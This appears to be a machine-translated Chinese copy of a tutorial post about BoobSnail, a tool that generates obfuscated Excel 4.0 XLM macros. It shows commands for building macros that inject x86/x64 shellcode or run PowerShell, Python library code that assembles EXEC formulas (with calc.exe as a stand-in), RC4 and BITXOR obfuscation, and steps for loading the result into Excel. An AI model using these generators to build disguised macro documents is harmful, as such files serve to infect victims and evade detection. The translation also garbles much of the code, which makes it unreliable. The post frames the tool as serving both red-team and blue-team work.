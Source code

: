 # 允许生成 Excel 4.0 XLM 宏

> 原文：<https://kalilinuxtutorials.com/boobsnail/>

[![](img/ca5d45694e05a4c33daafdf4c0f4a468.png)](https://1.bp.blogspot.com/-h292nklevH0/YULRmfmgEuI/AAAAAAAAK2o/3UOgYegHPu4l8zlJEcbZr4wnSpMdlnoBwCLcBGAsYHQ/s728/boobsnail%2B%25281%2529.png)

**BoobSnail** 允许生成 XLM (Excel 4.0)宏。其目的是支持 XLM 宏代中的 RedTeam 和 BlueTeam。特点:

*   各种感染技术；
*   各种混淆技术；
*   将公式翻译成英语以外的语言；
*   可以用作一个库——你可以很容易地编写自己的生成器。

**建造和运行**

测试于:Python 3.8.7rc1

**pip install-r requirements . txt
python boobsnail . py
。。*.._*
_ |*_ | _*/*/| | | | | \/_ | _*\/_ _ \ | |
| _ \(<_>|<_>)_ \ \/\ | \/*_ | | |*|
| _/_/_/_/| _/*/*(*)***

**发电机使用情况**

**python boobsnail.py -h**

要显示可用的生成器，请键入:

**python boobsnail.py**

**例题**

生成插入 x64 或 x86 外壳代码的混淆宏:

**python boob snail . py excel 4 ntdonutgenerator–input x86–input x64–out boob snail . CSV**

生成运行 calc.exe 的模糊宏:

**python boob snail . py excel 4 exec generator–cmd " powershell . exe-c calc . exe "-out boob snail . CSV**

**在 Excel 中保存输出**

*   将输出转储到 CSV 文件。
*   复制 CSV 文件的内容。
*   运行 Excel 并创建一个新工作表。
*   添加新的 Excel 4.0 宏(右键单击 Sheet1 ->插入-> MS Excel 4.0 宏)。
*   粘贴单元格 A1 或 R1C1 中的内容。
*   单击数据->文本到列。
*   单击下一步->将分号设置为分隔符，然后单击完成。

**库用法**

BoobSnail 共享 excel4lib 库，允许创建自己的 Excel4 宏生成器。excel4lib 包含一些在编写生成器时可以使用的类:

*   Excel4 lib . macro . excel 4 macro–允许定义 excel 4 公式、值变量。
*   excel 4 lib . macro . obfuscator . excel 4 obfuscator–允许对 Excel4Macro 中创建的指令进行模糊处理；
*   excel 4 lib . lang . excel 4 translator–允许将公式翻译成另一种语言。

这个库的主要思想是将 Excel4 公式、变量、公式参数和值表示为 python 对象。因此，您可以更改指令属性，如公式或变量名称、值、地址等。以一种简单的方式。例如，让我们创建一个运行 calc.exe 的简单宏

**从 excel4lib.macro 导入*
#创建宏对象
macro = excel 4 macro(" test . CSV ")
#将值为" calc.exe "的名为 cmd 的变量添加到工作表中
cmd = macro.variable("cmd "，" calc . exe ")
#添加带参数的 EXEC 公式 cmd
macro.formula("EXEC "，cmd)
#转储到 CSV
print(macro . to _ CSV())**

结果:

**cmd = " calc . exe "；
= EXEC(cmd)；**

现在让我们假设你想混淆你的宏。为此，您只需导入混淆器并将其传递给 Excel4Macro 对象:

**从 excel4lib.macro 导入*
从 excel4lib.macro.obfuscator 导入*
#创建宏对象
macro = Excel4Macro("test.csv "，obfuscator = excel 4 obfuscator())
#将名为 cmd 且值为" calc.exe "的变量添加到工作表中
cmd = macro.variable("cmd "，" calc . exe ")
#添加带参数的 EXEC 公式 cmd
macro.formula("EXEC "，cmd)
。**

目前，excel4lib 共享两个混淆类:

*   Excel 4 lib . macro . obfuscator . Excel 4 obfuscator 使用 BITXOR、SUM 等 Excel 4.0 函数对您的宏进行模糊处理；
*   excel 4 lib . macro . obfuscator . excel 4 RC obfuscator 使用 RC4 加密来隐藏公式。

如你所见，你可以编写自己的混淆器类，并在 Excel4Macro 中使用。

有时你需要把你的宏翻译成另一种语言，例如你的母语，在我的例子中是波兰语。使用 excel4lib 非常简单。只需要导入 Excel4Translator 类，调用 set_language 即可。

**from excel 4 lib . macro import *
from excel 4 lib . lang . excel 4 _ translator import *
# Change language
excel 4 translator . set _ language(" PL _ PL ")
# Create macro object
macro = excel 4 macro(" test . CSV "，obfuscator = excel 4 obfuscator())
#将名为 cmd 且值为" calc.exe "的变量添加到工作表中
cmd = macro.variable("cmd "，" calc.exe")** 

结果:

**cmd =‘calc . exe’：
=运行程序(cmd)；**

目前，只支持英语和波兰语。如果您想使用另一种语言，您需要在 excel4lib/lang/langs 目录中添加翻译。

当然，您将需要创建一个将另一个公式作为参数的公式。您可以通过使用 Excel4Macro.argument 函数来实现这一点。

**从 excel4lib.macro 导入*
macro = excel 4 macro(" test . CSV ")
#将名为 cmd 且值为" calc "的变量添加到工作表中
cmd_1 = macro.variable("cmd "，" calc ")
#添加单元格包含。exe 作为值
cmd_2 = macro.value("。exe ")
#创建连接 cmd_1 和 cmd _ 2
EXEC _ arg = macro . argument(" CONCATENATE "，cmd_1，cmd _ 2)
#将连接调用作为参数传递给 EXEC formula
macro . formula(" EXEC "，EXEC _ arg)
# Dump to CSV
print(macro . to _ CSV())**

结果:

**cmd = " calc "；
。exe
=EXEC(CONCATENATE(cmd，r2c 1))；**

如你所见”。exe "字符串作为 R2C1 传递给串联公式。R2C1 是的地址。exe”值(行号 2 和列号 1)。excel4lib 返回对公式的引用，值作为地址。对变量的引用以它们的名称返回。您可能已经注意到，Excel4Macro 类会按照对象创建的顺序自动将公式、变量、值添加到工作表中，并且起始地址是 R1C1。如果您想将公式放在另一列或另一行中，该怎么办？可以通过调用 Excel4Macro.set_cords 函数来实现。

**从 excel4lib.macro 导入***
**macro = excel 4 macro(" test . CSV ")
#第 1 列
#向工作表添加名为 cmd 且值为" calc "的变量
cmd_1 = macro.variable("cmd "，" calc ")
#添加单元格包含。exe 作为 value
cmd_2 = macro.value("。exe ")
#第 2 列
#更改第 2 列
macro.set_cords(2，1)
EXEC _ arg = macro . argument(" CONCATENATE "，cmd_1，cmd _ 2)
#将 CONCATENATE 调用作为参数传递给 EXEC formula
EXEC _ call = macro . formula(" EXEC "，EXEC _ arg)
#第 1 列
#返回第 1 列。将跳线更改为第 1 列和第 3 行
macro.set_cords(1，3)
# GOTO EXEC call
macro . GOTO(EXEC _ call)
# Dump to CSV
print(macro . to _ CSV())**

结果:

**cmd = " calc "；=EXEC(CONCATENATE(cmd，r2c 1))；
。exe；
= GOTO(R1 C2)；；**

[**Download**](https://github.com/STMCyber/boobsnail)